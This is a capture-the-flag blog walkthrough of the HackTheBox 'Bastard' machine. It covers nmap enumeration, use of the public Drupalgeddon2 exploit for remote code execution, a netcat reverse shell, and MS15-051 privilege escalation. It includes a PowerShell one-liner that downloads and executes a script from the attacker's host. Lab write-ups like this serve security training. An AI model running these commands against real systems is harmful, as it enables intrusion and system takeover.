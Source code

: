 ```yaml
---
layout: post
title: "HackTheBox - Bastard"
description: "Walkthrough of Bastard box on Hackthebox."
thumb_image: "documentation/bastardthumb.png"
tags: [ hackthebox ]
---
```


{% include image.html path="documentation/bastard.webp"
path-detail="documentation/bastard.webp"
alt="HTB Bastard" %}

## HTB - Bastard

IP - 10.10.10.9

### Overview

This box was a medium level linux box on HTB created by [ch4p](https://www.hackthebox.eu/home/users/profile/1), it started with finding a exploit for the `drupal 7.54` running on the Microsoft IIS http server at port 80, the exploit gave us a shell as `iusr` who had perms to read user flag from dimitris user account. We got shell as `nt authority\system` by using `MS15-051 exploit`.

### Enumeration

As always let’s start off with nmap script nmap -sC for default scripts ~~Alright, if it isn’t obvious yet I am a IPPSEC fanboi.~~ Aight, firing up nmap to scan all open ports on the box.

{% highlight bash %}
nmap -sC -sV -oA nmap/results 10.10.10.9
{% endhighlight %} 
And here is our nmap result
{% highlight bash %}
# Nmap 7.80 scan initiated Sun Nov 22 13:19:35 2020 as: nmap -sC -sV -o nmap/initial 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 22 13:20:56 2020 -- 1 IP address (1 host up) scanned in 80.39 seconds
{% endhighlight %}

Microsoft IIS http 7.5 server hosting a drupal cms, aight let's start enumerating the webserver as well as run an all port scan. 

#### Enumerating the web server

{% include image.html path="documentation/bastardweb.webp"
path-detail="documentation/bastardweb.webp"
alt="HTB Bastard" %}

Drupal default page, time to enumerate more using `droopescan`. it gave us the exact drupal version `7.5`. Now we can use searchsploit to find exploits for the specific version.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Hacking/Pentest/HTB/Boxes/Bastard]
└──╼ $searchsploit drupal
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
...
Drupal 7.x Module Services - Remote Code Execution                                                   | php/webapps/41564.php
...
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)                             | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)                          | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                  | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)              | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                     | php/webapps/44448.py
...
----------------------------------------------------------------------------------------------------- ---------------------------------
{% endhighlight %} 

### Exploitation

Trying exploit `php/webapps/44449.rb`. First issue I faced when was `\r` symbols in exploit script, but it can be easily fixed using `dos2unix 44449.rb`, another error I faced was `/usr/lib/ruby/2.7.0/rubygems/core_ext/kernel_require.rb:92:in 'require': cannot load such file -- highline/import (LoadError)`, simply googling the error lead me to this [issue](https://github.com/dreadlocked/Drupalgeddon2/issues/55) and so I fixed it with `sudo gem install highline`.

Finally time to run the exploit.
{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Hacking/Pentest/HTB/Boxes/Bastard]
└──╼ $ruby 44449.rb http://10.10.10.9 
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
...
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
...
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> 
{% endhighlight %} 

Yes, Got a shell as `nt authority\iusr`.

{% include image.html path="documentation/bastard.gif"
path-detail="documentation/bastard.gif"
alt="HTB Bastard" %}

### Getting User

Although I have a RCE on the box, it's not a proper shell(as we can't exit drupal directory). So I am using `netcat` to get a reverse shell. First I hosted `nc.exe` using a `smb server` then ran `nc.exe` on the remote box to get a reverse shell.

{% include image.html path="documentation/bastardrevshell.gif"
path-detail="documentation/bastardrevshell.gif"
alt="HTB Bastard" %}

### Rooting the box

In post enumeration, running [Sherlock](https://github.com/rasta-mouse/Sherlock) to find any privilege escalation exploit.

{% highlight bash %}
C:\Users\dimitris\Desktop>@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.14.15:8000/Sherlock.ps1'))"
...
Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
...
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
...
C:\Users\dimitris\Desktop>
{% endhighlight %} 

`MS15-051` looks intresting. _I did tried MS16-32 but it didn't worked._ 
Got the exploit from this [github repo](https://github.com/SecWiki/windows-kernel-exploits) this [zip archive](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) had the compiled exploit. Copied the `x64 exploit` to windows box using smb server and later used the exploit to get shell as `nt authority\system`.

Here is the POC of exploit usage. 

{% include image.html path="documentation/bastardroot.gif"
path-detail="documentation/bastardroot.gif"
alt="HTB Bastard" %}

Now we can read that `root` flag.

###### Hope you learned something new, if you face any issues / have any query, feel free to contact me on social media.

